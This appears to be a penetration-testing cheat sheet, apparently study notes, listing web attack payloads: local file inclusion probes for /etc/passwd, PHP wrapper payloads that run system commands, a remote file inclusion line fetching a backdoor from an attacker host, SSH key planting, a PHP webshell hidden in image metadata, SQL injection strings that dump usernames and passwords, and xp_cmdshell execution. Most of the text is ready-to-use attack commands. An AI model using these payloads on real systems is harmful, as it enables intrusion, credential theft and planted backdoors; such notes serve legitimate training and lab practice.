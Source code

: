 - Local File Inclusion (LFI) to Remote Code Execution (RCE) example (find application config for password, upload webshell, user enumeration, ssh private):
  - `http://<target>/index.php?page=../../../../etc/passwd` – Test for LFI vulnerability. (log poison if possible)
- PHP wrapper
  - Data rapper : `curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`
  - Php rapper : `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
- Remote File Inclusion (RFI) example:
  - `curl "http://mountaindesserts.com/meteor/index.php?page=http://<attacker ip>/simple-backdoor.php&cmd=ls"` – Host a simple webshell on your machine.
- File upload:
    - upload ssh key to web server
        ```bash
        kali@kali:~$ ssh-keygen
        Generating public/private rsa key pair.
        Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
        Enter passphrase (empty for no passphrase): 
        Enter same passphrase again: 
        Your identification has been saved in fileup
        Your public key has been saved in fileup.pub
        ...

        kali@kali:~$ cat fileup.pub > authorized_keys
        ```
    - upload php webshell to web server 
      - https://revshells.com/
    - upload hidden webshell in image file
      - https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py
      - `exiftool -comment='<?php system($_GET["cmd"]); ?>' image.jpg` – Embed PHP webshell in image metadata.
- Command Injection
  - `http://<target>/index.php?page=ping&ip=
  - find exploitable parameter in the web request that passes user input to system commands.
- SQL injection
    - payloads
    ```bash
    admin' OR 1=1 -- //
    ' ORDER BY 1-- //
    %' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
    %' UNION SELECT database(), user(), @@version, null, null -- //
    ' UNION SELECT null, null, database(), user(), @@version  -- //
    ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
    ' UNION SELECT null, username, password, description, null FROM users -- //
    AND 1=1 -- //
    AND IF (1=1, sleep(3),'false') -- //
    ```
    - impacket-mssqlclient
    ```bash
    kali@kali:~$ impacket-mssqlclient -windows-auth -target-ip
    enable_xp_cmdshell  -- To enable xp_cmdshell
    xp_cmdshell 'whoami'  -- To execute command
    